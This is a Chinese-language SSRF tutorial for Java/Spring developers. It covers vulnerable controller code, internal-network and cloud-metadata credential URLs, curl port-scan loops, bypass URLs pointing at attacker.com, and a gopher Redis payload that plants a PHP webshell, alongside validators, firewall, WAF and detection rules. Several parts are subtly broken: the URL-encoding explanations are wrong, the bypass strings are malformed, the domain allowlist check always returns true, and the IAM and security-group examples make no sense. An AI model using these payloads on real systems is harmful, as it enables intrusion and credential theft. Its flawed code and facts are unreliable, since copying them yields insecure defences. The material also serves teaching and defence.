


2019年，Slack 遭遇了一次令人深思的安全事件。安全研究员 Evan York 发现，Slack 的图像处理功能存在 SSRF 漏洞——攻击者可以通过该漏洞扫描内网、访问云元数据服务，甚至读取云环境的 IAM 凭证。

SSRF（Server-Side Request Forgery，服务端请求伪造）之所以危险，是因为它利用了服务端「可以访问内网」的特性。攻击者无法直接访问内网，但被攻击的服务端可以。于是，攻击者通过让服务端代为发起请求，实现了对内网资源的非法访问。

## 一、SSRF 的原理

### 1.1 核心问题

SSRF 的本质是：**服务器在发起请求时，被攻击者控制了请求的目标地址**。



### 1.2 典型漏洞代码

```java title="危险的用户 URL 处理"
@RestController
public class ImageController {
    
    @Autowired
    private RestTemplate restTemplate;
    
    /**
     * 危险：从用户输入获取 URL 并请求
     */
    @GetMapping("/fetch/image")
    public ResponseEntity<byte[]> fetchImage(@RequestParam String imageUrl) {
        // 直接使用用户输入的 URL
        return restTemplate.getForEntity(imageUrl, byte[].class);
        // 攻击者可以传入：http://localhost:22 或 http://169.254.169.254/latest/meta-data/
    }
}
```

```java title="更隐蔽的 SSRF"
@RestController
public class WebhookController {
    
    /**
     * Webhook 回调功能
     */
    @PostMapping("/webhook/test")
    public ResponseEntity<String> testWebhook(@RequestParam String callbackUrl) {
        HttpHeaders headers = new HttpHeaders();
        headers.setContentType(MediaType.APPLICATION_JSON);
        
        String payload = "{\"test\": \"data\"}";
        
        // 攻击者可以指定回调地址
        HttpEntity<String> request = new HttpEntity<>(payload, headers);
        
        // 如果回调地址是内网服务...
        return restTemplate.postForEntity(callbackUrl, request, String.class);
    }
}
```

## 二、攻击场景

### 2.1 访问内部系统

```bash title="常见的内部服务地址"
# 本地服务
http://127.0.0.1:80
http://localhost:8080
http://0.0.0.0:22

# 内网服务
http://192.168.1.1/router-admin
http://10.0.0.100:9200  # Elasticsearch
http://10.0.0.200:6379  # Redis
```

### 2.2 利用协议读取本地文件

```bash title="file:// 协议利用"
# 读取本地文件
http://127.0.0.1/file:///etc/passwd
http://169.254.169.254/file:///etc/hosts

# dict:// 协议 - 扫描端口
dict://127.0.0.1:6379/INFO
dict://127.0.0.1:6379/CONFIG GET *

# sftp:// - SFTP 连接
sftp://attacker.com:22/

# ldap:// - LDAP 查询
ldap://127.0.0.1:389/o=attacker
```

### 2.3 端口扫描内网

```bash title="内网端口扫描"
# 扫描本地开放端口
for port in 22 80 443 3306 5432 6379 8080 9200; do
    curl -s --max-time 2 "http://127.0.0.1:$port" > /dev/null && echo "Port $port is open"
done

# 扫描内网段
for ip in $(seq 1 254); do
    curl -s --max-time 1 "http://10.0.0.$ip:8080" > /dev/null && echo "Found: 10.0.0.$ip"
done
```

## 三、云元数据服务攻击

### 3.1 AWS 元数据服务

AWS EC2 实例可以通过 `169.254.169.254` 访问实例元数据和 IAM 凭证：

```bash title="AWS 元数据服务"
# 获取 IAM 角色名称
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/

# 获取 IAM 凭证（包含 Access Key 和 Secret Key）
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/<ROLE_NAME>

# 响应示例
{
  "AccessKeyId": "ASIAXXXXXXXX",
  "SecretAccessKey": "wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY",
  "Token": "AQoDYXdzEJr...",
  "Expiration": "2024-01-15T12:00:00Z"
}
```

### 3.2 其他云平台的元数据服务

| 云平台 | 元数据地址 |
|--------|-----------|
| AWS | `169.254.169.254` |
| GCP | `169.254.169.254` 或 `metadata.google.internal` |
| Azure | `169.254.169.254` |
| 阿里云 | `100.100.100.200` |

### 3.3 元数据服务攻击的严重性

一旦攻击者获取了元数据凭证，可能导致：

1. **横向移动**：使用凭证访问其他 AWS 服务（S3、RDS 等）
2. **权限提升**：如果角色权限配置不当，可能获取管理员权限
3. **数据泄露**：读取数据库、存储桶中的敏感数据
4. **持久化**：创建新的 IAM 用户和访问密钥

## 四、绕过技术

### 4.1 URL 解析差异

不同的 URL 解析库可能对同一 URL 有不同的理解：

```bash title="绕过示例"
# 绕过简单的 localhost 检查
http://localhost @attacker.com/
http://127.1/ @attacker.com/
http://[::1]/ @attacker.com/
http://127.0.0.1# @attacker.com/

# 利用 URL 编码
http://127.0.0.1%61.attacker.com  # 61 = '='
http://127.0.0.1%09attacker.com   # 09 = tab

# DNS 重绑定
# 第一请求：返回正常 IP
# 第二请求：DNS TTL 过期后返回内网 IP
```

### 4.2 DNS 重绑定



### 4.3 协议跳转

```bash title="协议跳转攻击"
# gopher:// 协议 - 发送原始 TCP 数据包
gopher://127.0.0.1:6379/_*1\r
$8\r
flushall\r

# 利用 URL 中的 @ 符号
http://google.com@127.0.0.1/
# 解析器可能认为目标是 127.0.0.1
```

## 五、防护措施

### 5.1 输入验证

```java title="URL 输入验证"
@Service
public class SafeUrlValidator {
    
    private static final Set<String> ALLOWED_PROTOCOLS = Set.of("http", "https");
    private static final Set<String> BLOCKED_HOSTS = Set.of(
        "localhost",
        "127.0.0.1",
        "0.0.0.0",
        "169.254.169.254",  // AWS 元数据
        "metadata.google.internal"  // GCP 元数据
    );
    
    public boolean isValidUrl(String urlString) {
        try {
            URL url = new URL(urlString);
            
            // 检查协议
            if (!ALLOWED_PROTOCOLS.contains(url.getProtocol().toLowerCase())) {
                return false;
            }
            
            // 检查主机
            String host = url.getHost().toLowerCase();
            if (isBlockedHost(host)) {
                return false;
            }
            
            // 检查是否是内网 IP
            if (isPrivateIp(url.getHost())) {
                return false;
            }
            
            return true;
        } catch (MalformedURLException e) {
            return false;
        }
    }
    
    private boolean isBlockedHost(String host) {
        for (String blocked : BLOCKED_HOSTS) {
            if (host.equals(blocked) || host.endsWith("." + blocked)) {
                return true;
            }
        }
        return false;
    }
    
    private boolean isPrivateIp(String host) {
        try {
            InetAddress address = InetAddress.getByName(host);
            return address.isSiteLocalAddress() || 
                   address.isLoopbackAddress() ||
                   address.isLinkLocalAddress();
        } catch (UnknownHostException e) {
            return true; // 无法解析的视为不安全
        }
    }
}
```

### 5.2 URL 白名单验证

```java title="白名单验证实现"
@Service
public class WhitelistUrlValidator {
    
    // 配置允许的域名白名单
    private final Set<String> allowedDomains;
    
    public WhitelistUrlValidator() {
        this.allowedDomains = Set.of(
            "cdn.example.com",
            "images.example.com",
            "api.example.com"
        );
    }
    
    public boolean isAllowed(String urlString) {
        try {
            URL url = new URL(urlString);
            String host = url.getHost();
            
            // 检查域名是否在白名单中
            // 支持通配符
            return allowedDomains.stream()
                .anyMatch(pattern -> matchesPattern(host, pattern));
        } catch (MalformedURLException e) {
            return false;
        }
    }
    
    private boolean matchesPattern(String host, String pattern) {
        if (pattern.startsWith("*.")) {
            String suffix = pattern.substring(2);
            return host.equals(suffix) || host.endsWith("." + suffix);
        }
        return host.equals(pattern);
    }
}
```

### 5.3 Spring Security 配置

```java title="Spring Boot SSRF 防护配置"
@Configuration
public class SecurityConfig {
    
    @Bean
    public RestTemplate safeRestTemplate() {
        SimpleClientHttpRequestFactory factory = new SimpleClientHttpRequestFactory();
        factory.setConnectTimeout(Duration.ofSeconds(5));
        factory.setReadTimeout(Duration.ofSeconds(10));
        
        return new RestTemplate(new CustomRestTemplate(factory));
    }
    
    static class CustomRestTemplate extends RestTemplate {
        private final Set<String> blockedHosts = Set.of(
            "169.254.169.254",
            "metadata.google.internal",
            "100.100.100.200"
        );
        
        @Override
        protected ClientHttpRequest createRequest(
                URI uri, HttpMethod method) throws URIException {
            
            String host = uri.getHost();
            
            // 阻止内网和云元数据地址
            if (isBlockedHost(host)) {
                throw new RestClientException("Blocked host: " + host);
            }
            
            // 阻止非 HTTP(S) 协议
            String scheme = uri.getScheme();
            if (!"http".equalsIgnoreCase(scheme) && 
                !"https".equalsIgnoreCase(scheme)) {
                throw new RestClientException("Blocked protocol: " + scheme);
            }
            
            return super.createRequest(uri, method);
        }
        
        private boolean isBlockedHost(String host) {
            if (host == null) return true;
            
            host = host.toLowerCase();
            if (blockedHosts.contains(host)) return true;
            
            try {
                InetAddress addr = InetAddress.getByName(host);
                // 阻止私有地址
                if (addr.isSiteLocalAddress() || 
                    addr.isLoopbackAddress() ||
                    addr.isLinkLocalAddress()) {
                    return true;
                }
            } catch (UnknownHostException e) {
                return true;
            }
            
            return false;
        }
    }
}
```

### 5.4 网络层防护

```yaml title="网络 ACL 规则 - 禁止服务器访问元数据"
# AWS 安全组出站规则
SecurityGroupEgress:
  # 禁止访问 AWS 元数据服务
  - IpProtocol: tcp
    FromPort: 80
    ToPort: 80
    DestinationIpv6CidrBlock: ::ffff:169.254.0.0/120

# GCP 防火墙规则
gcloud compute firewall-rules create no-metadata-access \
    --network default \
    --action deny \
    --direction egress \
    --rules tcp:80,tcp:443 \
    --destination-ranges 169.254.169.254/32
```

### 5.5 禁用不必要的协议

```java title="安全的 HTTP 客户端封装"
public class SafeHttpClient {
    
    private final OkHttpClient client;
    
    public SafeHttpClient() {
        this.client = new OkHttpClient.Builder()
            // 只允许 HTTP/HTTPS
            .protocols(List.of(Protocol.HTTP_1_1, Protocol.HTTP_2))
            // 设置超时
            .connectTimeout(5, TimeUnit.SECONDS)
            .readTimeout(10, TimeUnit.SECONDS)
            // 添加拦截器
            .addInterceptor(this::validateRequest)
            .build();
    }
    
    private Response validateRequest(Interceptor.Chain chain) throws IOException {
        Request request = chain.request();
        String url = request.url().toString();
        
        // 检查 URL 是否安全
        if (!isUrlSafe(url)) {
            throw new IOException("Blocked URL: " + url);
        }
        
        return chain.proceed(request);
    }
    
    private boolean isUrlSafe(String url) {
        try {
            URL parsedUrl = new URL(url);
            
            // 只允许 HTTP/HTTPS
            String protocol = parsedUrl.getProtocol().toLowerCase();
            if (!protocol.equals("http") && !protocol.equals("https")) {
                return false;
            }
            
            // 阻止常见 SSRF 目标
            String host = parsedUrl.getHost().toLowerCase();
            if (host.contains("169.254") || 
                host.contains("metadata") ||
                host.equals("localhost") ||
                host.equals("0.0.0.0")) {
                return false;
            }
            
            // 检查是否是内网 IP
            InetAddress address = InetAddress.getByName(host);
            if (address.isSiteLocalAddress() || 
                address.isLoopbackAddress()) {
                return false;
            }
            
            return true;
        } catch (Exception e) {
            return false;
        }
    }
}
```

## 六、检测与监控

### 6.1 日志检测

```yaml title="SSRF 检测规则示例"
# 检测访问云元数据服务
detection_rules:
  - name: "AWS Metadata Access"
    pattern: "169\.254\.169\.254"
    severity: critical
    action: alert
    
  - name: "GCP Metadata Access"
    pattern: "metadata\.google\.internal"
    severity: critical
    action: alert
    
  - name: "Localhost Access"
    pattern: "(localhost|127\.0\.0\.1|0\.0\.0\.0)"
    context:
      path_contains: ["fetch", "proxy", "import", "load", "url"]
    severity: medium
    action: alert

# 检测频繁的内部 IP 访问
  - name: "Internal Network Scan"
    pattern: "^10\.\d+\.\d+\.\d+$"
    threshold:
      count: 10
      window: 1m
    severity: high
    action: block_and_alert
```

### 6.2 WAF 规则

```yaml title="WAF SSRF 防护规则"
rules:
  # 阻止常见的 SSRF 参数
  - name: "Block SSRF Parameters"
    condition:
      - query_param: "url" matches ".*"
      - or: query_param matches "(127\.0\.0\.1|localhost|169\.254)"
    action: block
    confidence: high
    
  # 阻止协议利用
  - name: "Block Dangerous Protocols"
    condition:
      query_param matches "^(file|gopher|dict|sftp|ldap)://"
    action: block
    confidence: high
    
  # 白名单模式（优先匹配）
  - name: "Allow Known CDNs"
    condition:
      query_param matches "^(https?://)?[a-z0-9-]+\.cdn\..*"
    action: allow
```

:::tip 关键洞察
SSRF 的防护核心是**纵深防御**：
1. 输入验证（白名单优先）
2. 网络层阻断（ACL/安全组）
3. 应用层防护（HTTP 客户端安全配置）
4. 日志监控（及时发现攻击）

单一防护手段都不够，多层防护才是正确姿势。
:::

## 思考题

**问题 1**：某公司使用 AWS ALB（应用负载均衡器）作为 Web 应用的入口，ALB 后面的 EC2 实例需要访问外部 API 进行数据处理。请分析这种架构下 SSRF 可能的攻击向量，以及如何进行防护。

<details>
<summary>参考答案</summary>

**攻击向量分析**：

**向量 1：元数据服务访问**
- 如果 EC2 实例绑定了 IAM 角色
- 攻击者通过 SSRF 访问 `169.254.169.254`
- 获取 IAM 凭证后横向移动

**向量 2：内部服务访问**
- EC2 实例可能在内网访问：
  - RDS 数据库（3306）
  - ElastiCache（6379）
  - S3 私有端点
  - 其他 EC2 实例

**向量 3：ALB 配置错误**
- 如果 ALB 安全组配置不当
- 可能访问到管理接口

**多层防护方案**：

**第一层：应用层**
- 使用白名单验证所有用户输入的 URL
- 禁用 `file://`、`dict://` 等协议
- 验证目标域名/IP 不在黑名单中

**第二层：网络层**
```yaml
# EC2 安全组
# 入站：只允许来自 ALB
# 出站：
#   - 允许访问已知的外部 API
#   - 禁止访问 169.254.169.254
#   - 禁止访问 VPC 内部的 S3 私有端点（如果不需要）
```

**第三层：IAM 层**
```json
{
    "Version": "2012-10-17",
    "Statement": [{
        "Effect": "Deny",
        "Action": "*",
        "Resource": "*",
        "Condition": {
            "NotIpAddress": {
                "aws:SourceIp": ["10.0.0.0/8"]
            }
        }
    }]
}
```

**第四层：VPC 配置**
- 不为 EC2 实例分配公有 IP
- 使用 S3 VPC 端点并配置策略
- 限制对元数据服务的访问
</details>

**问题 2**：某公司发现其图像处理服务存在 SSRF 漏洞，攻击者可以利用该漏洞访问内网的 Redis 服务进行数据写入。请分析这种攻击的利用链，以及如何修复漏洞。

<details>
<summary>参考答案</summary>

**利用链分析**：

```
SSRF → 访问内网 Redis → 写入恶意数据 → 触发持久化攻击
```

**详细步骤**：

1. **发现 SSRF 漏洞**
   - 图像处理功能接受用户提供的 URL

2. **内网探测**
   - 扫描发现内网 Redis 服务：`10.0.0.50:6379`

3. **利用 Redis 协议**
   - 使用 gopher:// 协议发送 Redis 命令：
   ```
   gopher://10.0.0.50:6379/_*1\r
   $8\r
   flushall\r
   *3\r
   $3\r
   set\r
   $9\r
   webshell\r
   $30\r
   <?php eval($_GET['cmd']);?>\r
   ```

4. **持久化攻击**
   - 写入 crontab 任务实现持久化
   - 写入 SSH 公钥实现权限维持

**修复方案**：

**立即缓解**：
1. 禁用图像处理服务
2. 审查日志找出受影响范围
3. 检查 Redis 是否被写入恶意数据

**根本修复**：

```java
@Service
public class SecureImageService {
    
    private final RestTemplate restTemplate;
    private final URLValidator urlValidator;
    
    public byte[] processImage(String imageUrl) {
        // 验证 URL
        if (!urlValidator.isValid(imageUrl)) {
            throw new IllegalArgumentException("Invalid image URL");
        }
        
        // 只允许特定域名
        if (!isAllowedDomain(imageUrl)) {
            throw new IllegalArgumentException("Domain not allowed");
        }
        
        // 下载到临时文件
        Path tempFile = downloadToTemp(imageUrl);
        
        // 验证文件类型
        if (!isValidImage(tempFile)) {
            throw new IllegalArgumentException("Invalid image format");
        }
        
        // 处理图像...
        return process(tempFile);
    }
    
    private boolean isAllowedDomain(String url) {
        Set<String> allowedDomains = Set.of(
            "cdn.example.com",
            "upload.example.com",
            "*.amazonaws.com"  // S3
        );
        // 检查域名逻辑...
        return true;
    }
}
```

**纵深防御**：
- Redis 不要暴露在内网
- Redis 设置密码认证
- Redis 不要以 root 运行
- 配置 Redis ACL
</details>
